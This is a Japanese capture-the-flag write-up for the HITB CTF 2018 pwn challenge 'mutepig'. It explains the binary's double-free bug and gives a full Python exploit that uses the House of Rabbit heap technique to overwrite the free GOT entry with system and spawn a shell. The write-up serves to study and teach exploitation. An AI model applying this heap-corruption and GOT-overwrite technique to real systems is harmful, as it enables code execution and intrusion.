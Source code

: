 # [pwn ???pts] mutepig - HITB CTF 2018
64ビットバイナリで、PIEやRELROが無効です。
```
$ checksec -f mutepig
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes     0               1       mutepig
```
対象外ですがHouse of Rabbitの勉強用に選んだバイナリなので使う攻撃手法は分かっていますが、とりあえず解析しましょう。

バイナリにはstdoutに出力する処理がありません。1を選択するとaddっぽい処理になり、次のようなオプションが選べます。

1. `malloc(0x10)`
2. `malloc(0x80)`
3. `malloc(0xa00000)`
13337. `malloc(0xFFFFFFFFFFFFFF70)` (1度だけ)

確保された領域には7バイトまで書き込めます。その後10個まで入る配列に確保したポインタが入れられます。もうmallocされるサイズがあからさますぎて笑えます。
さて、2を選択するとdeleteっぽい処理に入ります。ここではptr[i]をfreeできるのですが、NULLを入れてない上チェックも無いのでdouble freeがあります。3を選択するとeditっぽい処理に入ります。これはptr[i]に7バイトまで書き込め、さらにbss上にある謎領域に0x2fバイトまで書き込めます。

あとは愚直にHouse of Rabbitするだけ。
13337の大きい数はgbufから少し前を確保してくれるのですが、これが丁度ポインタの配列のある場所になっているので、そこにfreeなどのGOTアドレスを書き込み、editでsystemのpltに書き換えてやればOKです。
```python
from ptrlib import *
import time

def add(choice, data):
    assert len(data) < 8
    assert choice in [1, 2, 3, 13337]
    time.sleep(0.1)
    sock.sendline('1')
    time.sleep(0.1)
    sock.sendline(str(choice))
    time.sleep(0.1)
    sock.send(data)
    time.sleep(0.1)
    return

def delete(index):
    time.sleep(0.1)
    sock.sendline('2')
    time.sleep(0.1)
    sock.sendline(str(index))
    time.sleep(0.1)
    return

def edit(index, data, name):
    assert len(data) < 8 and len(name) < 0x30
    time.sleep(0.1)
    sock.sendline('3')
    time.sleep(0.1)
    sock.sendline(str(index))
    time.sleep(0.1)
    sock.send(data)
    time.sleep(0.1)
    sock.send(name)

elf = ELF("./mutepig")
sock = Socket("localhost", 9999)
addr_gbuf = 0x602120

# Make av->system_mem larger than 0xa00000
add(3, '0000000') # 0
delete(0)
add(3, '1111111') # 1
delete(1)

# Free fast chunk
add(1, '2222222') # 2
delete(2)
add(2, '3333333') # 3

# Create fake chunk and modify fd
payload  = p64(0) + p64(0x11)
payload += p64(0) + p64(0xfffffffffffffff1)
edit(2, p64(addr_gbuf + 0x10)[:7], payload)

# Call malloc_consolidate
delete(3)

# Link unsortedbin to fastbin
payload  = p64(0xfffffffffffffff0) + p64(0x10)
payload += p64(0) + p64(0xa00001)
edit(3, '3333333', payload)
add(3, '4444444') # 4
payload  = p64(0xfffffffffffffff0) + p64(0x10)
payload += p64(0) + p64(0xfffffffffffffff1)
edit(3, '3333333', payload)

# GOT overwrite
add(13337, '5555555') # 5
add(1, p64(elf.got('free'))[:7]) # array
edit(0, p64(elf.plt('system'))[:7], 'pon')

edit(2, "/bin/sh", "pon")
delete(2)

sock.interactive()
```

# 感想
初心者向けのオーバーフロー問題ですね．
